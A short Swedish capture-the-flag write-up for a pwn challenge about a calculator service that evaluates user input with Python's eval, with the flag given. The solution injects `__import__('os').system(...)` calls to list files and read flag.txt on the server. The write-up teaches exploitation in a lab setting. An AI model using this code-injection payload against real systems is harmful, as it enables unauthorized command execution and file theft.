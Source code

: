 # Pwn: Helt ok miniräknare

- **Skapare:** Herman Karlsson
- **Poäng:** 200
- **Antal lösningar:** ???

## Beskrivning

Evert har lärt sig av sina misstag och har byggt en bättre miniräknare, nu finns det inga buggar alls

I den här uppgiften fick man en ip och port till en server där main.py kördes.

## Flagga

SSM{d0nt_d0_mi5tak3s}

## Lösning

Testa att skriva in lite saker tills något går sönder:
```
Traceback (most recent call last):
  File "main.py", line 14, in <module>
    print(eval(expr))
  File "<string>", line 1, in <module>
NameError: name 'aasf' is not defined

```

Då ser man att det är eval som körs på saker.

Då kan man testa `open("flag.txt")` eller nått, men det går inte.

Istället så kan man köra `__import__("os").system("ls")`, och sedan `__import__("os").system("cat flag.txt")`
